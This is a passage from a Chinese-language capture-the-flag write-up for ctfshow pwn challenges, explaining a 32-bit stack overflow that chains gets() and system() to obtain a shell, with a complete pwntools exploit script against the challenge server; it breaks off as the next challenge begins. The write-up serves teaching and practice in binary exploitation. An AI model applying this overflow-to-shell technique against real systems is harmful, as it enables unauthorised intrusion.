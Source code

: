 找到gets函数的位置

08048420

那么payload的构造就出来了

payload=b'a'*(0x6C+4)+p32(gets)+p32(system)+p32(buf2)+p32(buf2)

payload里的两个buf2分别作为gets函数和system函数的参数

具体原因参考大佬文

关于这个 payload 的详细解释：

在函数调用中，参数会按照一定的顺序压入栈中，然后函数会依次读取这些参数。

b'a'*offset：这部分是填充数据，长度为 offset，目的是为了覆盖函数的返回地址，并确保我们能够控制程序的执行流程。

p32(gets_addr)：这是 gets() 函数的地址，我们将覆盖函数返回地址为 gets() 函数的地址，这样在程序返回时会跳转到 gets() 函数执行，我们就可以利用 gets() 函数从输入中获取数据。 p32(system_addr)：这是 system() 函数的地址，我们将覆盖 gets() 函数的返回地址为 system() 函数的地址，这样在 gets() 函数执行完毕后，程序会继续执行 system() 函数。

而后面的两个 p32(buf2_addr) 分别作为 gets 函数与 system 函数的参数

第一个参数是用 gets() 函数读取的数据，也就是我们要写的 buf2 的地址（写入后 buf2 的地址也就是 "/bin/sh" 字符串的地址）；
第二个参数也是 "/bin/sh" 字符串的地址，因为 system() 函数会使用这个地址作为命令参数

原文链接：https://blog.csdn.net/Myon5/article/details/138167444

所以exp：

```python
from pwn import *
u=remote("pwn.challenge.ctf.show",28166)
gets=0x08048420
system=0x08048450
buf2=0x0804B060
payload=b'a'*(0x6C+4)+p32(gets)+p32(system)+p32(buf2)+p32(buf2)
u.sendline(payload)
u.sendline("/bin/sh")
u.interactive()
```

## pwn44

64位

ctfshow函数中，拿到溢出字符长度

0xA+8

找到gets函数

即输入函数，能手动传入"/bin/sh"的函数

```c
0x00400530
```

pwngdb调试

